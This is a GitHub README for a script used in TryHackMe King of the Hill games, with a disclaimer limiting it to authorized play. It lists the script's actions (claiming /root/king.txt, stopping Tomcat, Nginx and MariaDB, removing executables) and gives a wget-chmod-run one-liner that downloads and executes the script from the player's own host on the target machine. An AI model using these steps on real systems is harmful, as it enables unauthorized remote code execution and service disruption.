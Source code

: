 # The KOTH Script

<p align="center">
  <img src="king.png" alt="King">
</p>

**NOTE: Respect TryHackMe Rules: The KOTH Script is intended for recreational purposes within authorized environments, such as private games. Always adhere to the rules and guidelines provided by TryHackMe or any other platform you are using. The creator of this script is not responsible for any misuse or violation of terms. Use it responsibly and ethically.**

The KOTH Script is a powerful tool created by H3X-007 to ensure that you are the ultimate KING in King of the Hill challenges. It automates various actions and configurations to secure your position as the reigning champion.

## Features

- Sets the user nickname as the KING in the `/root/king.txt` file.
- Applies necessary patches to enhance security.
- Stops critical services like Tomcat, Nginx, and MariaDB.
- Restricts file permissions and removes certain executables.
- Monitors and updates the KING nickname in real-time.

## Usage

1. Clone the repository:
    
       git clone https://github.com/H3X-007/KOTH-Scripts.git

2. Change to the KOTH-Scripts directory:
       
       cd KOTH-Script 

3. Start a Python HTTP server on port 80:
  
       python3 -m http.server 80  

4. On the KOTH machine, execute the KOTH.sh script:
  
       wget http://YOUR-VPN-IP/KOTH.sh && chmod +x KOTH.sh && ./KOTH.sh

5. Enter your desired nickname when prompted.

6. Sit back and enjoy being the KING! The script will continuously update the KING nickname in the \`/root/king.txt\` file to maintain your dominance.

#### NOTE : Please ensure that the Python server is running on port 80 before executing the KOTH script. The KOTH script relies on the server to retrieve and run the check.sh script. Once the check.sh script is obtained and executed, you can safely close the Python server.

## Contributing

Contributions are welcome! If you have any suggestions, bug reports, or feature requests, please open an issue or submit a pull request.
